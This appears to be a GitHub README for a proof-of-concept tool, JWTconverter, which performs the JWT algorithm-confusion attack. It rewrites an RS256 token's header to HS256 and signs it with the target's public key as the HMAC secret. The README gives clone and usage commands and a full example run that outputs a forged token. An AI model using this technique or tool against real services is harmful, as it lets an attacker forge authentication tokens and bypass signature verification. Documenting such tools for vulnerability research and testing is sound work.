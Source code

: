 # JWTconverter
Convert JWT tokens from RS256 to HS256


## Details
For a given RS256 signed JWT token, this script changes the algorithm from RS256 to HS256 and signs the altered token with the public key that you provide. It is only used as a Proof of Concept do demonstrate a vulnerability, and thus does not change the payload.


## Download via Git
Run this command to clone from Git:
```git clone https://github.com/Logeirs/JWTconverter.git```


## Usage
```
JWTconverter.py {JWT token} {Public key file}
```


## Example
```
>JWTconverter.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU2MjgyMTAyOCwiZXhwIjoxNTYyODIxMTQ4LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.XlgqI4zNlEsjzGBslj-Dee5C2_WLpDSOVdjFXR4FO4TOx4RMth9mGPdIIeTQZbFyiVoQ9jkX0O3czWTr52y8qB7iJOqDKzwBoi1NPD_xoihFKHrnLxOmR1yLyjXwzlIHURRZ7f_DpPuwqnOYRbjSen4cMVBz0UhgGYe4DNcSjxNmaV2Ksfwd2exTC61g22szQIa_ISyJYU0OxIN2_Ad_XsPpmc_AQ0QcxyYCDcCEkByWUD9adCIBWlrdQhsjXASfEuP5olmvI4Znn2L33fSpAOW1G5DqozTQxyctOXvNuNm3ql9DvE5Wqntr5Z-vs6aQj32uKrVMSutayxuExVH_lQ pubkey.pem


[+] data: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU2MjgyMTAyOCwiZXhwIjoxNTYyODIxMTQ4LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0
[+] HMAC: cd44e3c58199ab7d0eafec318f01cfefa1ecba689761e12db1bc9412571c47b2
[+] signature: zUTjxYGZq30Or-wxjwHP76HsumiXYeEtsbyUElccR7I
-----------
[+] new JWT token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU2MjgyMTAyOCwiZXhwIjoxNTYyODIxMTQ4LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.zUTjxYGZq30Or-wxjwHP76HsumiXYeEtsbyUElccR7I
```
